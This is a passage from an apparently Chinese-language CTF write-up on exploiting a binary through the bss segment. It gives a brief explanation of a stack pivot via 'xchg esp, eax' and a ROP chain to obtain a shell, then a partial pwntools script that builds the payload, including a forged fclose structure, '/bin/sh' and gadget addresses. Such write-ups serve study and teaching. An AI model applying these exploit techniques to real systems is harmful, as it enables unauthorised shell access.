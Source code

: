 因为我们只能控制bss段内容。
因此，我们要进行栈迁移操作。
可以利用 xchg esp, eax; ret;
然后再利用写入的数据，执行RoP，获取shell。

```
#/usr/env/bin python
#-*- coding: utf-8 -*- 
from pwn import *
import sys

def buf():
    buf = ''
    buf += p32( 0x42424242 ) #0x80ef9e0 <x>:    0x42424242
    buf += p32( 0x42424242 ) #0x80ef9e4 <x+4>:  0x42424242
    buf += p32( 0x42424242 ) #0x80ef9e8 <x+8>:  0x42424242
    buf += '/bin/sh\x00'     #0x80ef9ec          # ebx point here
    #buf += p32(0x00000000)
    buf += p32( 0x42424242 ) #0x80ef9f4 <x+20>: 0x42424242
    buf += p32( 0x42424242 ) #0x80ef9f8 <x+24>: 0x42424242
    buf += p32( 0x42424242 ) #0x80ef9fc <x+28>: 0x42424242
    buf += p32( 0x80efa04 ) #0x80efa00 <x+32>:fclose 
    buf += p32( 0xffffdfff ) #0x80efa04 <x+36>: 0x00000000  To bypass test ah, 20h
    buf += p32( 0x00000000 ) #0x80efa08 <x+40>: 0x00000000
    buf += p32( 0x00000000 )     #0x80efa0c <x+44>:
    buf += p32( 0x00000000 )
    buf += p32( 0x00000000 ) #0x80efa14 <x+52>: 0x00000000
    buf += p32( 0x00000000 ) #0x80efa18 <x+56>: 0x00000000
    buf += p32( 0x00000000 ) #0x80efa1c <x+60>: 0x00000000
    buf += p32( 0x00000000 ) #0x80efa20 <x+64>: 0x00000000
    buf += p32( 0x00000000 ) #0x80efa24 <x+68>: 0x00000000
    buf += p32( 0x00000000 ) #0x80efa28 <x+72>: 0x00000000
    buf += p32( 0x00000000 ) #0x80efa2c <x+76>: 0x00000000
    buf += p32( 0x00000000 ) #0x80efa30 <x+80>: 0x00000000
    buf += p32( 0x00000000 ) #0x80efa34 <x+84>: 0x00000000
    buf += p32( 0x00000000 ) #0x80efa38 <x+88>: 0x00000000
    buf += p32( 0x00000000 ) #0x80efa3c <x+92>: 0x00000000
    buf += p32( 0x00000000 ) #0x80efa40 <x+96>: 0x00000000
    buf += p32( 0x00000000 ) #0x80efa44 <x+100>:    0x00000000
    buf += p32( 0x00000000 ) #0x80efa48 <x+104>:    0x00000000
    buf += p32( 0x00000000 ) #0x80efa4c <x+108>:    0x00000000
    buf += p32( 0x00000000 ) #0x80efa50 <x+112>:    0x00000000
    buf += p32( 0x00000000 ) #0x80efa54 <x+116>:    0x00000000
    buf += p32( 0x00000000 ) #0x80efa58 <x+120>:    0x00000000
    buf += p32( 0x00000000 ) #0x80efa5c <x+124>:    0x00000000
    buf += p32( 0x00000000 ) #0x80efa60 <x+128>:    0x00000000
    buf += p32( 0x00000000 ) #0x80efa64 <x+132>:    0x00000000
    buf += p32( 0x00000000 ) #0x80efa68 <x+136>:    0x00000000
    buf += p32( 0x00000000 ) #0x80efa6c <x+140>:    0x00000000
    buf += p32( 0x00000000 ) #0x80efa70 <x+144>:    0x00000000
    buf += p32( 0x00000000 ) #0x80efa74 <x+148>:    0x00000000
    buf += p32( 0x00000000 ) #0x80efa78 <x+152>:    0x00000000
    buf += p32( 0x00000000 ) #0x80efa7c <x+156>:    0x00000000
    buf += p32( 0x00000000 ) #0x80efa80 <x+160>:    0x00000000
    buf += p32( 0x00000000 ) #0x80efa84 <x+164>:    0x00000000
    buf += p32( 0x00000000 ) #0x80efa88 <x+168>:    0x00000000
    buf += p32( 0x00000000 ) #0x80efa8c <x+172>:    0x00000000
    buf += p32( 0x00000000 ) #0x80efa90 <x+176>:    0x00000000
    buf += p32( 0x00000000 ) #0x80efa94 <x+180>:    0x00000000
    buf += p32( 0x80efaa0 ) #0x80efa98 <x+184>:    0x00000000
    buf += p32( 0x00000000 ) #0x80efa9c <x+188>:    0x00000000
    buf += p32( 0x0804e9aa) #0x80efaa0 <x+192>: addr point to  "add esp" gadget
    buf += p32( 0x00000000 ) #0x80efaa4 <x+196>:    0x00000000
    buf += p32( 0x08048f66 ) #0x80efaa8 <x+200>:    first gadget xchg esp, eax;
```